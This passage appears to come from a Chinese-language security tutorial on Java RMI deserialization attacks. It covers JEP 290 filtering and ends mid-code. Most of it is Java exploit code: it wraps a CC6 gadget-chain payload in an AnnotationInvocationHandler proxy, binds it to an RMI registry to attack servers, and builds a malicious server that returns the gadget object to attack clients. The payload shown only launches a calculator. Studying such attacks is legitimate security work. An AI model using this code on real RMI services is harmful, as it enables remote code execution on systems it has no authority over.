 > JEP 是 JDK 增强提案（JDK Enhancement Proposal）的缩写，代表了 Java 开发工具包（JDK）的提议增强或功能。引入 JEP 290 后，Java 增强了对传入序列化数据的过滤机制，允许开发人员定义过滤器来控制哪些类可以被反序列化。这样可以有效地防止恶意类的反序列化攻击，提高了 Java 应用程序的安全性。

构造 payload 时，由于 bind 的第二个从参数需要为一个 Remote 对象。所以通常使用动态代理将 payload 包装成 Remote 对象。
```java
public static void TestJEP290() throws Exception{
    Registry registry = LocateRegistry.getRegistry(1099);
    Object pocObject = new CC6().getPocObject("mate-calc");

    Map<String, Object> map = new HashMap<>();
    map.put("whatever", pocObject);
    Constructor constructor =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    InvocationHandler invocationHandler  = (InvocationHandler) constructor.newInstance(Override.class, map);
    Remote obj = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler);

    registry.bind("evil", obj);
}
```
增加了 JEP 290 后的 jdk 中会报错：
```java
Exception in thread "main" java.rmi.ServerException: RemoteException occurred in server thread; nested exception is: 
	java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is: 
	java.io.InvalidClassException: filter status: REJECTED
	at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:389)
```

### 远程方法返回值的反序列化
#### 攻击客户端（任意版本 jdk）
如果远程对象函数的返回值如果是一个恶意的对象，则会在客户端进行反序列化时触发。

我们修改服务端中 Calc 实现类的 equ 函数，将其返回值设定为恶意序列化数据：
```java
    public static void EvilReturn() throws Exception{
        Registry registry = LocateRegistry.getRegistry(1099);

        ICalc obj = new ICalc() {
            @Override
            public Integer sum(List<Integer> params) throws RemoteException {
                return null;
            }

            @Override
            public Object equ(Object a, Object b) throws RemoteException {
                Object pocObject1 = null;
                try {
                     pocObject1 = new CC6().getPocObject("mate-calc");
                }catch (Exception e){
                    e.printStackTrace();
                }
                return pocObject1;
            }
        };

        registry.bind("evil", obj);
    }
```
将该实例注册到注册中心中，然后使用客户端进行调用, 可以成功反序列化。
```java
    public static void InvokeEqu(){
        try {
```